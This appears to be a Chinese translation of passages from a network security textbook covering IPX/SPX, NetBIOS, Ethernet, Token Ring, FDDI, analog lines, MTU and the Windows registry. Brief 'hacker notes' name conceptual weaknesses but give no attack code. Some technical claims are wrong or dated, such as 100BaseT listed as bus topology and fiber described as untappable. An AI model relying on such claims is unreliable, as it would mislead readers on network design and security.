SAP: Network = 00C59321, Node = 000000000001, Socket = 8059
SAP: Intermediate networks = 7
SAP:
SAP: Service type = 0107 (NetWare 386)
SAP: Server name = "BR_SERVER_59"
SAP: Network = 00C59321, Node = 000000000001, Socket = 8104
SAP: Intermediate networks = 7
```

### **图 2.7** SAP 头部嗅探器捕获数据。

能够渗透路由器或网关的黑客可以通过删除或修改 SAP 过滤器使中大型网络瘫痪。所谓的 SAP 泛洪是 Novell 环境中分析带宽降级时的常见问题。

## 顺序数据包交换

最常用的 NetWare 传输协议是顺序数据包交换 (SPX)。它在 IPX 之上传输。与 TCP 类似，SPX 提供可靠交付服务，补充 IPX 中的数据报服务。对于 Internet 访问，Novell 利用封装在 UDP 中的 IPX 数据报（再封装在 IP 中）进行传输。SPX 是一个面向数据包的协议，使用一个数据包大小的传输窗口。通常使用 SPX 的应用程序包括 R-Console 和 P-Console。我们将在本书后面更多地讨论这些应用程序。

## SPX 格式、头部快照

SPX 头部包含排序、寻址、控制和确认信息（见图 2.8）。其字段定义如下：

- **连接控制**。控制数据的双向流动。
- **数据流类型**。数据包中的数据类型：
    - 类型 0xFE：连接结束通知
    - 类型 0xFF：连接结束确认
    - 类型 0x00：客户端定义

| 连接控制 | 数据流类型 | 源连接 ID |
| :--- | :--- | :--- |
| 目的连接 ID | 序列号 | 确认号 | 分配号 |

*注：图 2.8 的原始 OCR 表格结构是片段的。标准的 SPX 头部布局通常遵循：连接控制 (1 字节)、数据流类型 (1 字节)、源连接 ID (2 字节)、目的连接 ID (2 字节)、序列号 (2 字节)、确认号 (2 字节)、分配号 (1 字节)。OCR 将其分成了行。*

### **图 2.8** 一个 SPX 数据包。

- **源连接 ID**。在源处，在连接建立期间由 IPX 分配的连接 ID 号。用于复用分解（参见第 1 章）。
- **目的连接 ID**。在目的处，在连接建立期间由 IPX 分配的连接 ID 号。在连接建立请求期间，此字段设为 0xffff。它用于复用分解（参见第 1 章）。
- **序列号**。最近发送的数据包的序列号。计算传输期间在一个方向上交换的数据包。
- **确认号**。指定下一个数据包的序列号。用于可靠交付服务。
- **分配号**。指定可以发送的最大序列号，以控制未确认的未完成数据包。

在审查了 SPX 头部格式之后，让我们将这些发现与图 2.9 中所示的实际传输捕获数据进行比较。

## *连接管理，会话终止*

还记得第 1 章中可靠交付连接建立吗？SPX 使用相同类型的方法，其中连接端点验证每个数据包的交付。在连接建立期间，必须发生 SPX 连接请求。这有点类似于第 1 章中讨论的三次握手。这些连接管理数据包包含以下序列：

1.  连接请求。
2.  连接请求 ACK。
3.  知情断开。
4.  知情断开 ACK。

使用这种连通性，SPX 成为面向连接的服务，具有保证交付和跟踪功能。注意，除了知情断开 (Informed Disconnect) 之外，还有一种称为单方面中止 (Unilateral Abort) 的会话方法；它用于紧急终止。

## 看门狗算法

当 NetWare 客户端登录到 NetWare 服务器并开始发送请求时，服务器使用看门狗进程来监控客户端的连接。如果服务器在看门狗超时期间未从客户端接收到任何请求，服务器将向该客户端发送看门狗数据包。看门狗数据包只是一个 IPX 数据包，其中包含连接号和数据包数据部分中的问号 (?)。如果客户端的通信仍然处于活动状态，客户端响应 Y，表示连接有效。*看门狗算法* 是技术


## 错误恢复与拥塞控制

SPX 技术的进步使错误恢复从单纯的错误检测中止，发展到数据包重传和窗口控制。如果接收站未确认数据包，发送站必须重新发送该数据包。如果发送站仍未收到确认信息，发送方必须寻找通往目的地或接收站的其他路径，并重新开始传输。如果在此过程中确认再次失败，连接将因单方中止而取消。

为了避免在传输尝试期间加剧带宽拥塞，在收到前一个数据包的确认之前，SPX 不会发送新的数据包。如果确认信息因网络劣化而延迟或丢失，SPX 将通过这种简单的拥塞控制形式避免网络被数据淹没。

> 
> 图 2.9 SPX 头部嗅探捕获。

## 小结

尽管技术不断更新，数百万个网络仍采用 NetWare IXP/SPX 作为主要通信协议。此外，企业网段、小型办公/家庭办公（SOHO）网络仍在利用 NetBIOS。许多专有通信套件，如无线局域网模块和条形码软件包，都依赖 NetBIOS 启动。鉴于此，让我们继续讨论这个古老的协议。

## NetBIOS 技术：简介

严格来看，作为局域网（LAN）协议，NetBIOS 是受限的，因为它不是一个可路由协议。因此，NetBIOS 必须通过网桥或交换机才能与其他网络进行通信。由于其大多数功能利用广播帧作为传输方式，NetBIOS 可能会严重拥塞广域网（WAN）链路。

> **黑客笔记**
> NetBIOS 依赖广播帧进行通信，因此可能会拥塞 WAN 链路，并容易遭受被动嗅探攻击。

> 
> 图 2.10 NetBIOS 头部嗅探捕获。

## 命名规范与头部快照

NetBIOS 名称包含 16 个字符（头部捕获示例见图 2.10），由两种不同类型组成：

- **组名。** 唯一的一组工作站。
- **个体名。** 唯一的 NetBIOS 工作站或服务器。

为了与其他 NetBIOS 工作站通信，NetBIOS 工作站必须解析自己的名称；它可以拥有多个个体名或组名（实际世界中的 NetBIOS 命名场景见图 2.11）。

### 通用服务、命名服务、会话服务和数据报服务

为了跨网络通信，工作站的应用程序可以请求多种不同类型的 NetBIOS 服务，包括：

**通用服务**

- **重置。** 用于释放 NetBIOS 资源池中的资源，以便其他应用程序使用。
- **状态。** 包括发送/接收工作站网卡状态。
- **取消。** 用于取消命令。

> 

- **警报。** 发出以在指定时间内开启网卡软错误通知。
- **解除链接。** 向后兼容性。

**命名服务**

- **添加名称。** 用于向 NetBIOS 添加名称。
- **添加组。** 用于向 NetBIOS 添加组。
- **删除名称。** 用于删除名称和组。
- **查找名称。** 用于搜索名称或组。

**会话服务**

基本上，这是基于用户分配或 NetBIOS 创建的名称，在 NetBIOS 工作站之间建立和维护通信会话。

**数据报服务**

当 NetBIOS 希望使用数据报帧发送传输而不需要响应时使用。此过程使应用程序无需获取会话即可通过网卡发送传输。该过程不仅是一种不可靠的交付服务，而且数据大小受限：数据报每次传输仅允许最多 512 字节。数据报服务命令包括：

- **发送数据报。** 用于向网络上的任何名称或组发送数据报。
- **发送广播数据报。** 任何拥有未处理的“接收广播数据报”的工作站将在执行此命令时接收广播数据报。
- **接收数据报。** 工作站将接收由发出“发送数据报”命令的工作站发送的数据报。
- **接收广播数据报。** 工作站将接收由发出“发送广播数据报”命令的工作站发送的数据报。

## NetBEUI：简介

NetBIOS 的主要扩展功能是 NetBIOS 扩展用户界面，即 NetBEUI 技术的一部分。基本上，NetBEUI 是 NetBIOS 的衍生技术，它利用 NetBIOS 地址和端口进行上层通信。NetBEUI 是一种不可靠的协议，扩展性受限，用于本地 Windows NT、LAN Manager 和 IBM 局域网服务器网络中的文件和打印服务。该技术提供了一个小型、高效、优化的协议栈。由于其简单性，厂商推荐 NetBEUI 用于拥有少于 200 个客户端的小型部门级网络。

## NetBEUI 关系

由 NetBIOS 生成的无连接流量利用 NetBEUI 作为传输过程。例如，当工作站发出 NetBIOS 命令时，无论是“添加名称”还是“添加组”，都是由 NetBEUI 发出帧以验证该名称是否已在网络中使用。NetBIOS 与 NetBEUI 关系的另一个例子是执行“网络使用”命令。当发出该命令时，NetBEUI 使用标识帧定位服务器，并开始建立链接。

## 窗口与时钟

回忆第 1 章中描述的滑动窗口技术。类似于 TCP 窗口处理过程，NetBEUI 利用滑动窗口算法进行性能优化，同时减少带宽退化。为了流量调节，NetBEUI 使用三个时钟，T1、T2 和 Ti：

- **响应时钟 (T1)。** 发送方假设帧丢失前的存活时间。该值通常由链路速度决定。
- **确认时钟 (T2)。** 当流量不允许对响应帧发送确认时，确认时钟在发送 ACK 之前启动。
- **非活动时钟 (Ti)。** 默认情况下，这是一个 3 秒的时钟，用于指定链接是否断开。当超过此时间时，会再次生成响应帧以等待确认，以验证链接状态。

## 结论

至此，我们讨论了各种常见的网络协议及其与网络通信的关系。我们一起研究了通过 TCP/IP 套件、IPX/SPX 到 NetBIOS 的技术互联。考虑到这些协议，让我们继续讨论用于传输和连接它们的底层通信介质。

# 第二部分

# 融会贯通

# 第 3 章

## 理解通信介质

本章介绍了作为通信协议传输所必需的重要介质技术。通信介质构成了将工作站连接成局域网（LAN）、将局域网连接成广域网（WAN）、将 WAN 连接成互联网的基础设施。在第二部分的旅程中，我们将讨论诸如以太网、令牌环和 FDDI 等拓扑结构。我们还将探索广域介质，包括模拟、ISDN/xDSL、点对点链路和帧中继。本入门指南将是技术基础中下一层的基石。

### 以太网技术

第一个以太网，即 DIX 以太网，是以提出它的公司命名的：Digital、Intel 和 Xerox。在此期间，电气和电子工程师学会（IEEE）一直在进行以太网标准化工作，后来被称为 802 项目。随着其成功，以太网计划演变为 IEEE 802.3 标准。基于罗伯特·梅特卡夫（Robert Metcalfe）、大卫·博格斯（David Boggs）及其工程师团队最初开发的载波侦听机制，以太网成为通信介质中的主要玩家，与 IBM 提出的令牌环（或 IEEE 802.5）正面竞争。

#### 载波传输

当以太网网络上的工作站准备传输时，它必须首先监听信道上的传输。如果有另一台工作站正在传输，则称其为“产生活动”。这种活动或传输被称为*载波*。简而言之，这就是以太网被称为*载波侦听通信介质*的原因。在具有多个侦听载波的工作站的以太网网络中，这种机制被称为带有多种访问的载波侦听，即 CSMA。

如果检测到载波，工作站将在最后一帧通过后的至少 9.6 微秒后，在传输自己的帧之前等待。当两个工作站同时传输时，会发生*融合信号轰击*，即碰撞。以太网工作站检测碰撞以将问题降至最低。这项技术被添加到 CSMA 中，成为带有碰撞检测的载波侦听多种访问，即 CSMA/CD。




**图 3.1** 以太网拓扑分解图。

参与碰撞的站点会立即终止其传输。检测到碰撞的第一个站点会向所有站点发送警报。此时，所有站点都会执行一个随机碰撞计时器，以强制在尝试传输其帧之前进行延迟。这种定时延迟机制被称为*退避算法*。此外，如果检测到多次碰撞，随机延迟计时器将加倍。

> **黑客笔记** 在经历 10 次连续碰撞以及多次随机延迟时间加倍后，网络性能不会显著改善。这是以太网拥塞方法的一个典型案例。

## *以太网设计、布线与适配器*

以太网有多种形式。结构中节点的实际物理排列方式被称为*网络拓扑*。以太网拓扑的示例包括总线型、星型和点对点型（参见图 3.1）。

46

以太网选项也有许多变体，其中一些在图 3.2 中展示，并定义在以下列表中：

| | 以太网 | 10Base2 | 10Base5 | 10BaseT | 10BaseFL | 100BaseT |
| :--- | :---: | :---: | :---: | :---: | :---: | :---: |
| **拓扑结构** | 总线 | 总线 | 总线 | 星型 | 点对点 | 总线 |
| **数据传输速率** | 10 Mbps | 10 Mbps | 10 Mbps | 10 Mbps | 10 Mbps | 100 Mbps |
| **最大段长度** | 500 米 | 185 米 | 500 米 | 100 米 | 2,100 米 | 100 米 |
| **介质类型** | 粗同轴电缆 | 细同轴电缆 | 粗同轴电缆 | 非屏蔽双绞线 | 光纤 | 非屏蔽双绞线 |

**图 3.2** 按类型划分的以太网规范对比表。



**图 3.3** 以太网和 10Base5 网络。

- **以太网，10Base5。** 使用粗同轴（coax）电缆的以太网采用 RG08 型电缆。从 NIC（网络接口卡）的连接通过收发器电缆传输至外部收发器，最终通过粗同轴电缆传输（参见图 3.3）。由于信号衰减，网段限制在 500 米以内，每个网段最多支持 100 个站点，总计最多 1,024 个站点。

- **10Base2。** 细缆以太网，或称*细网（thinnet）*，采用 RG-58 型电缆。在 10Base2 中，收发器功能在 NIC 内处理。BNC T 型连接器将电缆连接到 NIC（参见图 3.4）。与每种介质类型一样，由于信号衰减，细网网段限制在 185 米以内，每个网段最多支持 30 个站点，总计最多 1,024 个站点。

- **10BaseT。** 非屏蔽双绞线（UTP）电缆在 10BaseT 规范中使用 RJ-45 接头。双绞线以太网摆脱了同轴电缆的电气屏蔽，使用常规的非屏蔽铜线。采用星型拓扑结构，每个站点通过 UTP 电缆和 RJ-45 接头连接到集线器或交换机上的唯一端口（参见图 3.5）。集线器模拟以太网电缆上的信号。由于信号衰减，站点与集线器之间的电缆长度限制在 100 米以内。



**图 3.4** 10Base2 网络图。



**图 3.5** 10BaseT 示例图。

- **快速以太网，100BaseT。** 为了适应带宽密集型应用和网络扩展，快速以太网联盟推广了 100 Mbps 技术。该联盟由 3Com 公司、DAViD Systems、Digital Equipment Corporation、Grand Junction Networks, Inc.、Intel Corporation、National Semiconductor、SUN Microsystems 和 Synoptics Communications 组成。

为了理解 10BaseT 和 100BaseT 之间传输速度的差异，让我们来看看这个公式：

站点到集线器直径（米） = 25,000 / 传输速率（Mbps）。

**已知：10 Mbps 10BaseT 以太网网络：**

直径（米） = 25,000 / 10 (Mbps)
直径 = 2,500 米

**已知：100 Mbps 100BaseT 快速以太网网络：**

直径（米） = 25,000 / 100 (Mbps)
直径 = 250 米

从这些方程式中，我们可以推断出 100 Mbps 快速以太网所需的站点到集线器直径（以米为单位）是 10 Mbps 以太网的十分之一。快速以太网中的速度与距离比率允许最大传输比特数增加十倍。快速以太网的其他先决条件包括 100 Mbps 站点 NIC、快速以太网集线器或交换机以及五类 UTP（数据级）电线。

## 硬件地址与帧格式

在介绍了以太网设计和布线之后，我们可以着手解决底层的以太网寻址和格式化问题。我们知道，以太网网络中的每个站点都有一个唯一的 48 位地址，绑定到每个 NIC（在第 1 章中描述）。这些地址不仅指定了唯一的单个站点，还为以太网网络上的传输提供了到三种类型地址的支持：

- **单播地址。** 传输到单个站点的目的地。
- **组播地址。** 传输到站点子集或组的目的地。
- **广播地址。** 传输到所有站点的目的地。

> 传输目的地是单播、组播还是广播并不重要，因为每个帧随后都会经过每个接口。

以太网帧是可变长度的，也就是说，没有帧会小于 64 个八位字节或大于 1,518 个八位字节。每个帧由前导码、目的地址、源地址、帧类型、帧数据以及循环冗余校验（CRC）字段组成（参见图 3.6）。这些字段定义如下：

- **前导码。** 有助于发送方和接收方之间的同步。
- **目的地址。** 接收站点的地址。
- **源地址。** 发送站点的地址。
- **帧类型。** 指定帧中的数据以确定应使用哪个协议软件模块进行处理。
- **帧数据。** 指示基于帧类型字段中固有的类型而承载在帧中的数据。
- **循环冗余校验（CRC）。** 有助于检测传输错误。发送站点在传输前计算帧值。在帧检索时，接收站点必须基于完整、成功的传输计算相同的值。

## 令牌环技术

令牌环技术最初由 IBM 开发，标准化为 IEEE 802.5。在首次发布时，令牌环的传输速率为 4 Mbps。后来，改进和新技术将传输速度提高到了 16 Mbps。




为了帮助理解令牌环网络，想象一系列点对点站点形成一个圆圈（参见图 3.7）。每个站点在信号经过时对其进行重复并适当放大，最终到达目的地站点。一种称为多站访问单元（MAU）的设备连接站点。每个 MAU 连接起来形成一个环形。令牌环布线可以由同轴电缆、双绞线或光纤类型组成。



### 操作

令牌环功能始于一个 24 位令牌，它从一个站点传递到下一个站点，持续循环，即使没有帧准备好传输也是如此。当站点准备好传输帧时，它等待令牌。在接触到令牌后，站点提交带有目的地址的帧。然后令牌从一个站点传递到另一个站点，直到到达目的地，接收站点会保留帧的副本进行处理。每个连接可以保留令牌的最大时间周期。

这看起来很费力，但考虑到双绞线中的传播速度是光速的 .59 倍。此外，由于每个站点必须等待传递的令牌才能提交帧，因此令牌环中不会发生碰撞。

### 令牌环设计、布线


1类和2类布线用于16 Mbps的数据传输速率。为避免抖动，建议每个环最多连接180台设备。单MAU局域网中站点与MAU之间的最大距离为300米。多MAU局域网中站点与MAU之间的建议最大距离为100米。多MAU局域网中MAU之间的建议最大距离为200米。

3类布线主要用于4 Mbps的数据传输速率。为避免抖动，建议每个环最多连接90台设备。单MAU局域网中站点与MAU之间的最大距离为100米。多MAU局域网中站点与MAU之间的建议最大距离为45米。多MAU局域网中MAU之间的建议最大距离为120米。

## 优先级管理

在令牌环网络中，有两个优先级字段允许站点在令牌使用上享有优先权：*优先级*字段和*保留*字段。具有等于或高于令牌中设置值的优先级的站点可以通过优先级机制获取该令牌。传输完成后，高优先级站点必须恢复先前的优先级值，以便正常的令牌传递操作得以继续。

> **设置了等于或高于令牌中值优先级的黑客可以通过优先级机制控制该令牌。**

## 故障管理

令牌环采用多种方法来检测和管理环中的故障。其中一种方法包括*活动监控*技术，即一个站点作为环上传输的计时节点。活动监控站点的职责之一是移除在环中持续循环的帧。这一点很重要，因为接收站点可能会在传递帧寻找它进行处理时锁定或暂时无法使用。因此，活动监控将移除该帧并生成一个新的令牌。

另一种故障管理机制包括站点*信标发送*。当站点检测到网络问题（如电缆故障）时，它会发送一个信标帧，从而生成一个故障域。该域被定义为报告错误的站点、其最近邻站点以及两者之间的一切。位于故障域内的站点尝试在电子上重新配置以绕过故障区域。

> **信标的生成可能会使环失去防御能力，并可能导致环基本上锁定。**

## 地址与帧格式

类似于以太网中的三种地址机制（在本章前面已描述），令牌环的地址类型包括：

- **单播地址**。指定一个唯一的环站点。
- **组播地址**。指定环上一组目标站点。
- **全站点地址**。指定环上所有站点作为目标。

基本上，令牌环支持两种帧类型：令牌帧和数据/命令帧，分别如图3.8和图3.9所示。

令牌帧的字段定义如下：

- **起始定界符**。向每个站点通告令牌的到达。
- **访问控制**。优先级数值字段。
- **结束定界符**。指示令牌或数据/命令帧的结束。

| 起始定界符 | 访问控制 | 结束定界符 |
|---|---|---|

图3.8 令牌帧由起始定界符、访问控制字节和结束定界符字段组成。

| 起始定界符 | 访问控制 | 帧控制 | 目标地址 | 源地址 | 数据 | 帧校验序列 | 结束定界符 | 帧状态 |
|---|---|---|---|---|---|---|---|---|

图3.9 数据/命令帧由标准字段组成，包括错误检查。

数据/命令帧的字段定义如下：

- **起始定界符**。向每个站点通告令牌的到达。
- **访问控制**。优先级数值字段。
- **帧控制**。指示帧中携带的是数据还是控制信息。
- **目标地址**。目标节点地址的6字节字段。
- **源地址**。源节点地址的6字节字段。
- **数据**。包含由接收站点处理的传输数据。
- **帧校验序列（FCS）**。类似于CRC（在本章前面已描述）：源站点根据帧内容计算一个值。目标站点必须基于成功的帧传输重新计算该值。当源站点和目标站点的FCS不匹配时，帧将被丢弃。
- **结束定界符**。指示令牌或数据/命令帧的结束。
- **帧状态**。一个1字节字段，指定数据帧终止以及地址识别和帧复制指示器。

## 光纤分布式数据接口技术

美国国家标准学会（ANSI）在1985年左右开发了光纤分布式数据接口（FDDI）。FDDI就像一种使用光纤电缆并具备冗余故障切换功能的高速令牌环网络。FDDI以100 Mbps运行，主要用作骨干网络，将几个网络连接在一起。FDDI利用令牌环的*令牌传递*技术，当完全实现时，包含两个反向旋转的光纤环。主环数据顺时针传输，用于发送；副环（逆时针传输）用于在主环故障时进行备份故障切换。在故障期间，自动感知技术导致环回卷，使传输转向副环。



**图3.10** 通过MAU连接两个本地局域网并通过路由器连接一个广域网的FDDI双环骨干。

### 运行方式

FDDI帧大小不得超过4,500字节。这使得FDDI成为大型图形和数据传输的可行介质。FDDI的最大长度为单个环200公里，容纳2,000个站点，而双环实现则为该值的一半。FDDI被设计为高速传输骨干；因此，FDDI假设工作站不会直接连接到其环上，而是连接到MAU或路由器，因为它们无法跟上数据传输速率（参见图3.10）。因此，频繁的站点电源开关会导致环重新配置；因此，建议直接连接的MAU始终处于通电状态。

FDDI环以同步和异步模式运行，定义如下：

- **同步**。站点保证获得总可用带宽的一定百分比。
- **异步**。站点在受限或不受限条件下传输。受限站点可以在站点管理分配的时期内以高达全环带宽进行传输；作为不受限站点，所有可用带宽减去限制后将在剩余站点之间分配。

站点可以作为单站点附件（SAS）或双站点附件（DAS）连接到FDDI。SAS仅通过FDDI MAU连接到主环。这种方法的优点是，如果站点断电，不会影响环。DAS直接连接到两个环，即主环和副环。如果DAS断开连接或断电，将导致环重新配置，中断传输性能和数据流。

### FDDI设计与布线

FDDI可以使用光纤或铜缆运行，称为铜缆分布式数据接口（CDDI）。FDDI为光纤设计，与铜缆相比具有许多优势，包括性能、线缆距离、可靠性和安全性。

FDDI光纤的两种类型被设计为以模式工作（定义为以特定角度进入光纤的光线）：*单模*和*多模*。这些模式定义如下：

- **单模**。一束激光进入光纤，能够在长距离下提供高性能。此模式推荐用于建筑物之间或广泛分布网络的连接。
- **多模**。多束LED光以不同角度进入光纤，并在不同时间到达光纤末端。多模会降低带宽和潜在线缆距离，因此推荐用于建筑物内部或紧密分布网络之间的连接。

光纤不发射电信号，因此无法被窃听，也不允许未经授权访问。

## 帧格式

请记住，FDDI帧最大可达4,500字节。如前所述，这种大小使FDDI成为大型图形和数据传输的可行介质。不出所料，令牌环和FDDI格式非常相似；它们都作为令牌传递网络环运行，因此包含相似的帧，如图3.11所示，其字段定义在下列列表中：

| 前导码 | 起始定界符 | 帧控制 | 目标地址 | 源地址 | 数据 | 帧校验序列 | 结束定界符 | 帧状态 |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |

图3.11 FDDI数据帧。

- **前导码**。为即将到来的帧准备站点的序列。
- **起始定界符**。向每个站点通告令牌的到达。
- **帧控制**。指示帧中携带的是数据还是控制信息。
- **目标地址**。目标节点地址的6字节字段。
- **源地址**。源节点地址的6字节字段。
- **数据**。包含由接收站点处理的传输数据。
- **帧校验序列（FCS）**。类似于CRC（在本章前面已描述）：源站点根据帧内容计算一个值。目标站点必须基于成功的帧传输重新计算该值。如果源站点和目标站点的FCS不匹配，帧将被丢弃。
- **结束定界符**。指示帧的结束。
- **帧状态**。指定是否发生错误以及接收站点是否复制了帧。

## 模拟技术

模拟通信已经存在多年，通过更长、更旧的线缆和交换设备遍布全球。然而，模拟通信固有的问题现在似乎正在超越其有效实用性。幸运的是，现在存在其他通信手段来解决模拟传输的复杂性。一些较新的工程是数字技术和ISDN/xDSL技术（在下一节中涵盖）。

拨号模拟传输通过单一信道进行，其中模拟信号在电路中被创建和处理。调制解调器以拨号和应答网络上的模拟流形式提供通信仿真。电话系统功能源自通过设备交换的模拟传输，以定位目标并打开活动通信电路。涉及在内的线缆、微波、交换设备和硬件


许多供应商提供的模拟传输非常复杂且效率低下。模拟通信中的诸多问题进一步加剧了这些缺陷。

## 问题领域与解决方案

模拟传输中遇到的一些问题包括*噪声*和*衰减*。噪声被视为任何位于通信流之外并干扰信号的传输。噪声干扰会导致带宽性能下降，甚至可能导致信号完全丢失。线路中存在噪声的五个主要原因是：

- 受热影响
- 并行信号，即串扰
- 电力干扰
- 磁场
- 电气浪涌或干扰

对于线路中某些类型的噪声，有一些补救措施。电信公司拥有技术和设备来测量信号和噪声的强度，从而有效地提取信号并提供更好的通信线路。

衰减源于电阻。随着电信号通过导体传输，且传输线路变得越长，衰减就越明显。衰减的一个后果是信号变弱或信号失真。解决由衰减引起的性能下降的一个明显方法是使用放大器。然而，这样一来，现有的噪声幅度也会随着所需通信信号一起增大。


**强烈建议向当地电信公司提交信噪比服务请求，以实现最佳的信号强度和带宽分配。**

公共电话网络主要是为语音通信设计的。为了利用这项技术，调制解调器（modem）被开发出来以便在这些网络上传输数据。由于典型电话线路中存在上述问题，如果没有某种形式的错误纠正，调制解调器的连接是不可靠的。虽然许多公共网络已升级为数字基础设施，但用户仍受低速连接的影响，这是因为新调制解调器中集成的错误检测和纠正机制所致。

最新的一种技巧是通过在通信过程中引入更大的数据传输量来避免通过添加综合业务数字网（ISDN）线路升级可用带宽以实现拨号接入。但在探讨这一新举措的基础之前，让我们回顾一下*最大传输单元*（MTU）。

## 最大传输单元

MTU 是在系统间通信序列中，使用数据链路连接传输的最大 IP 数据报。MTU 是一个双方都能接受的值，即链路的两端同意使用相同的特定值。由于 TCP 和/或 UDP 在数据包通过互联网等网络传输时并不知晓其具体路径，因此它们不知道该生成多大尺寸的数据包。此外，由于小数据包非常普遍，与小包相比，若数据量大而头部小，则显得低效。显然，较大的数据包效率要高得多。

互联网上可下载各种优化软件，允许你优化影响模拟和数字线路数据传输的设置，例如 MTU。如果不直接编辑系统注册表（下文将介绍），这些设置中的大多数都不易调整。这些软件包包括 NetSonic（www.NetSonic.com）、TweakAll（www.azbtonx-shed.com）和 MTUSpeed（www.mjs.u-net.com）等。这些工具套件通过增加 MTU 数据传输大小来优化在线系统性能。生存时间（TTL）规范详细说明了数据包在过期前可以经过多少跳，并通过使用可用的系统硬盘空间提供频繁的网页缓存。

## 系统注册表

系统注册表是后期版本的 Windows（95/98、Millennium、NT4、NT5 和 2000）中的一个层次化数据库，其中存储了所有的系统设置。它取代了控制 Windows 3.x 的所有初始化（.ini）文件。来自 system.ini、win.ini 和 control.ini 的所有系统配置信息都包含在注册表中。所有 Windows 程序的初始化和配置数据也存储在注册表中。

需要注意的是，不应使用任何标准编辑器来查看或编辑注册表；必须使用 Windows 自带的程序，Windows 95 和 98 使用 RegEdit，而 Windows NT4 和 NT5 使用 RegEdit32。该程序未列在开始菜单中，实际上在 Windows 目录中隐藏得较深。要运行此程序，请单击“开始”，然后单击“运行”，在输入框中输入 `regedit`（适用于 Win9x）或 `regedit32`（适用于 WinNT）。这将启动注册表编辑器。

在尝试实施这些方法或软件套件之前，备份系统注册表非常重要。Tucows（www.tucows.com）和 Download（www.download.com）提供可供下载的注册表备份软件。图 3.12 展示了 Windows 注册表子树的一个示例。其文件夹的内容如下列表所述：



图 3.12 Windows 注册表子树。

- **HKEY_CLASSES_ROOT**。包含关于拖放操作的软件设置；处理快捷方式信息和其他用户界面信息。为每个已定义的文件关联包含一个子键。
- **HKEY_CURRENT_USER**。包含关于当前登录用户的信息，包括：
    - **AppEvents**：包含为系统和应用声音事件分配的播放声音的设置。
    - **Control Panel**：包含类似于 Windows 3.xx 中 system.ini、win.ini 和 control.ini 中定义的设置。
    - **InstallLocationsMRU**：包含“启动”文件夹中程序的路径。
    - **Keyboard Layout**：指定当前的键盘布局。
    - **Network**：提供网络连接信息。
    - **RemoteAccess**：如果使用的是拨号网络，则列出当前的登录位置信息。
    - **Software**：显示当前登录用户的软件配置设置。
- **HKEY_LOCAL_MACHINE**。包含关于该特定计算机所有用户通用的硬件和软件设置的信息，包括：
    - **Config**：列出配置信息/设置。
